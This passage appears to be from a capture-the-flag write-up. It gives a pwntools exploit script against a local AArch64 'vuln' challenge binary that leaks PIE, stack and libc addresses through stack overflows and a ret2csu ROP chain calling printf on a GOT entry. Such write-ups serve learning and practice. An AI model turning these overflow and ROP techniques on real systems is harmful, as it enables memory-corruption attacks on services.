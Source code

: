 Running this has the following: 

![](https://i.imgur.com/1yrVeYk.png)

For some reason, `x23` ends up becoming `pc` so setting `x32` to `p64(elf.symbols['vuln']+0x30)` (call to flush) will flush stdout and print the leak.

Full code up to this point:
```python
from pwn import *
context.binary = elf = ELF("./vuln")
libc = ELF("./lib/libc.so.6")

io = remote("127.0.0.1",1337)

name = b"A"*8
io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
elf.address = pie_leak

message  = b"A"*0x20
message += b"B"*8
message += p64(elf.symbols['vuln']+0x18)
io.sendlineafter(b"message now: ",message)

io.clean()

second_name  = b"A"*8 #x29
second_name += p64(elf.symbols['vuln']+0x1c) #x30
second_name += b"A"*32 # junk
second_name += b"A"*8 #x29
second_name += p64(elf.symbols['main']) #x30
second_name += b"A"*0x37 # more junk to bring size to 0x77
io.sendline(second_name)
io.readline()
stack_leak = u64(io.readline().strip().ljust(8,b"\x00")) - 280
print("Stack Leak: " + hex(stack_leak))

io.sendline("Rondo") #name

csu_popper = elf.symbols['__libc_csu_init']+104
csu_caller = elf.symbols['__libc_csu_init']+72

leak_libc_payload = b""
leak_libc_payload += b"B"*0x47
leak_libc_payload += p64(csu_popper)
leak_libc_payload += p64(elf.symbols['printf']) # x29 #stack_leak points to this
leak_libc_payload += p64(csu_caller) # x30
leak_libc_payload += p64(0) # x19 needs to be 0
leak_libc_payload += p64(0) # x20 junk
leak_libc_payload += p64(stack_leak) # x21 call*
leak_libc_payload += p64(elf.got['printf'])# x22 x0
leak_libc_payload += p64(elf.symbols['vuln']+0x30) # x23 x1
leak_libc_payload += p64(0) # x24 x2

io.sendline(leak_libc_payload)

io.readuntil("now: ")
io.readuntil("now: ")

libc.address =  u64(io.read(4).strip().ljust(8,b"\x00")) - libc.symbols['printf']
print("libc: " + hex(libc.address))
```